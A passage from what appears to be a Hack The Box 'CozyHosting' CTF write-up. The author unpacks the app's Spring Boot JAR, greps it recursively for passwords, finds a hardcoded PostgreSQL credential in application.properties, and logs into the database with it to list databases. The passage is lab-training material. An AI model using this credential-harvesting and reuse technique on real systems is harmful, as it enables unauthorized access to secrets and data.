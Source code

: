 Let's move this file to Kali, and unzip it.

```bash
┌──(kali㉿kali)-[~/htb/cozyhosting/cloudhosting]
└─$ unzip cloudhosting-0.0.1.jar 
Archive:  cloudhosting-0.0.1.jar
   creating: META-INF/
  inflating: META-INF/MANIFEST.MF    
   creating: org/
...SNIP...
```

I searched password using `grep` command recursively.

```bash
┌──(kali㉿kali)-[~/htb/cozyhosting/cloudhosting]
└─$ grep -r password . 2>/dev/null
./BOOT-INF/classes/static/assets/vendor/remixicon/remixicon.svg:    

...SNIP...

./BOOT-INF/classes/application.properties:spring.datasource.password=Vg&nvzAQ7XxR

...SNIP...

./BOOT-INF/classes/templates/login.html:                                    <p th:if="${param.error}" class="text-center small">Invalid username or password</p>
```

In `BOOT-INF/classes/application.properties` file, there's a password `Vg&nvzAQ7XxR`.
Let's read the file.

```bash
┌──(kali㉿kali)-[~/htb/cozyhosting/cloudhosting]
└─$ cat BOOT-INF/classes/application.properties
server.address=127.0.0.1
server.servlet.session.timeout=5m
management.endpoints.web.exposure.include=health,beans,env,sessions,mappings
management.endpoint.sessions.enabled = true
spring.datasource.driver-class-name=org.postgresql.Driver
spring.jpa.database-platform=org.hibernate.dialect.PostgreSQLDialect
spring.jpa.hibernate.ddl-auto=none
spring.jpa.database=POSTGRESQL
spring.datasource.platform=postgres
spring.datasource.url=jdbc:postgresql://localhost:5432/cozyhosting
spring.datasource.username=postgres
spring.datasource.password=Vg&nvzAQ7XxR 
```

It seems that the password found is related with postgres database.

```bash
app@cozyhosting:/app$ PGPASSWORD='Vg&nvzAQ7XxR' psql -U postgres -h localhost
PGPASSWORD='Vg&nvzAQ7XxR' psql -U postgres -h localhost
\list
                                   List of databases
    Name     |  Owner   | Encoding |   Collate   |    Ctype    |   Access privileges   
-------------+----------+----------+-------------+-------------+-----------------------
 cozyhosting | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 postgres    | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 template0   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
             |          |          |             |             | postgres=CTc/postgres
 template1   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
             |          |          |             |             | postgres=CTc/postgres
(4 rows)
```
